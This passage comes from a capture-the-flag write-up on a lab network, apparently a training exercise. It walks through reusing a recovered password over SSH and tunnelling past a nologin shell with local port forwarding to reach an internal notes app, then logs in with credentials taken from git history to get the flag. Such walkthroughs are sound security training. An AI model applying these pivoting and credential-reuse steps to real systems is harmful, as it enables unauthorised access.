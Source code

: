 Now we know the password for the flatnotes application, however, perhaps even
in this case Johny likes to reuse passwords, so let's try to use it to login
to `johny-station`.

```console
$ ssh johny@johny-station.cypherfix.tcc
johny@johny-station.cypherfix.tcc's password:
Linux 09cbf1e9b00d 6.1.0-22-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.94-1 (2024-06-21) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Oct 26 09:23:16 2024 from 10.200.0.19
This account is currently not available.
Connection to johny-station.cypherfix.tcc closed.
```

The password seems to be correct, however, the user cannot log in. As the hint
indicates, `/usr/sbin/nologin` seems to be used as shell. While this prevents
us from logging in, it does not prevent us from doing other things, e.g. port
forwarding. Let's try to forward a local port to `notes.cypherfix.tcc:8080` to
check if the reason for app not responding was not caused by some restrictions
on source IPs.

```console
$ ssh -N -L8080:notes.cypherfix.tcc:8080 johny@johny-station.cypherfix.tcc
johny@johny-station.cypherfix.tcc's password:
```

The port seems to be open, but when we try to access `http://localhost:8080` an
error message appears in the console where we started `ssh` command

```console
channel 2: open failed: connect failed: Temporary failure in name resolution
```

It seems that the name cannot be resolved, so let's try to open the tunnel
again, this time using the IP address (`10.99.24.33`) instead of hostname
(`notes.cypherfix.tcc`).

```console
$ ssh -N -L8080:10.99.24.33:8080 johny@johny-station.cypherfix.tcc
johny@johny-station.cypherfix.tcc's password:
```

This time the notes application opens and asks for username and password. Since
we've already retrieved those details when exploring git history earlier, we
can log in (username: `user`, password: `gojohnygo`) and retrieve the flag from
the notes.

![Flag in notes](flag.png)

[git-dumper]: https://github.com/arthaud/git-dumper
